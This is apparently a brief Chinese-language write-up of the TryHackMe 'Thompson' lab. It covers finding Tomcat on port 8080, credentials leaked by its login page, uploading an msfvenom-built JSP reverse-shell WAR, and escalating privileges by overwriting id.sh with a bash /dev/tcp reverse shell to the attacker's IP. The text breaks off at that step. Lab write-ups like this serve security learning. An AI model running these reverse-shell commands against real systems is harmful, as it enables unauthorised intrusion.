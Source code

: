 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme Thompson 简单wp/","tags":["靶场","#oscp","#tryhackme"]}
---
```



## nmap扫描端口
访问8080端口发现是tomcat 有个登录界面

登录界面点取消键就爆出了账户密码 有点离谱了

有个上传页面 上传一个反弹shell

![image.png](https://s2.loli.net/2025/05/01/5U3YcxeDzRVjMb1.png)

制造反弹shell 用msf连接
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.17.40.203 lport=6666-f war > shell.war
```

![image.png](https://s2.loli.net/2025/05/01/6TZ9pfwiHovnIR3.png)

反弹成功

检查到id.sh可以提权
## 提权
```
cat > id.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/10.17.40.203/8888 0>&1
EOF
# 